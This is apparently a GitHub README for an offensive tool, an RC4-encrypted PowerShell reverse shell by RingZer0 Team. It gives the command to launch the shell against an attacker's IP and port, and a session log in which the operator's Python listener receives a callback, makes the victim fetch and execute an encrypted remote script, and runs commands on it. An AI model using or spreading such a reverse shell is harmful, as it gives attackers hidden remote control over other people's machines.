 # RC4-PowerShell-IEX
Small powershell reverse shell using RC4 encryption

# Usage
```
PS-RemoteShell -ip 1.1.1.1 -port 1111 -key 1111
```

# Example
```
$ python PsShellClient.py 10.0.0.144 8080 test
PS-RemoteShell Python Client v1.0
Mr.Un1k0d3r RingZer0 Team


[*] Waiting for a connection...
[+] Callback from 10.0.0.144:49758
(192.168.70.133:RINGZER0\ME):Url >https://home.ringzer0team.com/ps.php
(https://home.ringzer0team.com/ps.php):Exec >

Start Page
----------
http://go.microsoft.com/fwlink/p/?LinkId=255141



(192.168.70.133:RINGZER0\ME):Url >null
(null):Exec >whoami
RINGZER0\ME

(192.168.70.133:RINGZER0\ME):Url >

The ps.php file located at https://home.ringzer0team.com/ps.php is encrypted using the following key: test
```

# Credit 
Mr.Un1k0d3r RingZer0 Team

https://ringzer0team.com
